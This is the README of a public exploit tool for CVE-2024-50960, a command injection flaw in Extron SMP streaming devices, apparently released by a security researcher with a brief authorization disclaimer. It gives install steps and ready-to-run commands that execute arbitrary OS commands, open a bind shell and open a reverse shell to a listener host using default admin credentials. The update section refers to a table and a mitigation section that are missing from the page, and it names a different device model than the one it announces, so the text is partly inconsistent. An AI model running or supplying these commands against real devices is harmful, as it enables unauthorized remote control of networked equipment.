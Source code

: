 ![alt text](https://github.com/layer8secure/extron-smp-inject/blob/main/extron_inject.png?raw=true)

# CVE-2024-50960: Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

Advisory: [CVE-2024-50960: Exploiting Extron SMP Command Injection](https://ryanmroth.com/articles/exploiting-extron-smp-command-injection)

## Overview

This tool exploits [CVE-2024-50960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-50960) — OS command injection vulnerabilities in Extron SMP devices. It allows web admins to execute arbitrary commands and spawn shells (both bind and reverse) on the underlying OS.

## April 17 Update: Additional Affected Device Identified

Further analysis has revealed that the [Extron SME 211](https://www.extron.com/product/sme211)
(firmware ≤ 3.02) is also vulnerable to CVE-2024-50960.

The [Key Details](#key-details) table above has been revised.

Organizations deploying the SMP 351H should follow the same
[mitigation strategies](#how-to-protect-your-organization), especially around patching and isolating
affected units.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-inject.git
cd extron-smp-inject
pip install -r requirements.txt
```

## Usage

To run the tool, use the following command:

```bash
python extron_smp_inject.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python extron_smp_inject.py command --password admin whoami 192.168.1.1 443
```

**Spawn a bind shell:**

```bash
python extron_smp_inject.py bind --password admin 4444 192.168.1.1 443
```

**Spawn a reverse shell:**

```bash
python extron_smp_inject.py reverse --password admin 192.168.0.1 4444 192.168.1.1 443
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.
